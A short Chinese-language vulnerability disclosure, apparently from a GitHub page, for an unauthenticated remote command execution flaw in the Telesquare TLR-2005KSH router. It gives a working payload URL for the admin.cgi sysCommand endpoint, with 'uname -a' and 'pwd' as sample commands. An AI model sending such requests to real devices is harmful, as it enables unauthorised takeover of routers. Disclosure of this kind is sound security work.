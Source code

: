 # Telesquare TLR-2005KSH 路由器存在未授权的远程命令执行漏洞

## 漏洞详细信息：

访问易受攻击的设备输入以下Payload，攻击者可以利用此漏洞通过Cmd参数在未授权的情况下执行系统命令



/cgi-bin/admin.cgi?Command=sysCommand&Cmd=uname%20-a

![1734088238407](C:\Users\zzcun\Desktop\TLR-2005KSH\assets\1734088238407.jpg)

/cgi-bin/admin.cgi?Command=sysCommand&Cmd=pwd

![1734088373076](C:\Users\zzcun\Desktop\TLR-2005KSH\assets\1734088373076.jpg)

此漏洞影响已知产品版本：2.6.36 及更高的版本

